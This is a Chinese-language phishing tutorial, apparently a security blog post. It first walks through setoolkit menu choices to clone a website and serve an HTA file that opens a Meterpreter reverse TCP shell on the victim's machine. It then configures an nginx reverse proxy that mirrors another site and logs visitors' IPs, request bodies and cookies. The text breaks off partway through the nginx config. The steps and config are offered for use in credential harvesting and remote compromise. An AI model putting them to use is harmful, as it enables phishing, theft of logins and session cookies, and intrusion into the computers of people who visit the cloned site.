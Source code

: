 #### setoolkit HTA 注入攻击

先使用 setoolkit 克隆一个站点，当用户点击运行脚本的时候，会触发反弹一个 Shell。

1、启动 setoolkit，并选择 1，社工攻击

[![](assets/1701612327-0632fcc622d87a1cd85d02ea1ada4ea0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710173945-b4748a42-1f05-1.png)

2、然后选择 2，web 网站式攻击 - 钓鱼

[![](assets/1701612327-99398c7d78d3789462b4c75003adc976.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710173950-b756c9be-1f05-1.png)

3、随后选择 7，HTA 攻击

[![](assets/1701612327-9f56549daeb03316c88843054227436e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710173955-ba0f964a-1f05-1.png)

4、选择 2，克隆网站

[![](assets/1701612327-a38a7131c0d1b8203e0433277e059760.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710174000-bd651810-1f05-1.png)

5、输入克隆的站点，监听 ip 和端口默认就行，最后还需选择一个攻击载荷 Meterpreter Reverse TCP

[![](assets/1701612327-a4a077f6ab11dc39736b91b7d21b1885.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710174005-c041b9a8-1f05-1.png)

当攻击者访问攻击机的 ip 时就会弹出弹窗并且上线 shell

[![](assets/1701612327-84ebebcbe7fd71278c7171e3fa22f0c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710174010-c2e8487a-1f05-1.png)

### 0x02、nginx 反向代理克隆镜像网站

nginx 有个反向代理功能，将客户端的请求均匀地分配到后端的多个业务服务器进行处理，nginx 再将执行结果返回给客户端，以此来解决网站流量过大的问题。

利用 nginx 反向代理克隆生成镜像网站就是通过反向代理将请求分发到一个不属于我们的网站去处理，最后将处理的结果再通过 nginx 返回给用户。

1、打开 nginx 配置⽂件/www/server/nginx/conf/nginx.conf，在 http 处添加以下配置，指定日志的存储内容。

```plain
log_format Clonelog escape=json '{$remote_addr|'
    '$request_filename|'
    '$request_body|'
    '$http_cookie|'
    '$http_x_forwarded_for|'
    '$time_local}';
```

[![](assets/1701612327-e471fe81e1b7f6d8b5f448f8f9674018.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710174040-d51ee788-1f05-1.png)

2、在/www/server/panel/vhost/nginx/目录下新增 clone.conf，做如下配置，生成镜像网站

```plain
server
{

    listen 8000;
    server_name 127.0.0.1;
    index index.html index.htm index.php;
    access_log /www/wwwlogs/access.log Clonelog;

 location / {
    proxy_pass http://xxx.xxx.com;
    proxy_buffering off;
    proxy_set_header X-Real-Ip $remote_addr;
    proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    proxy_set_header Host "xxx.xxx.com";
    proxy_set_header Accept-Encoding "";
```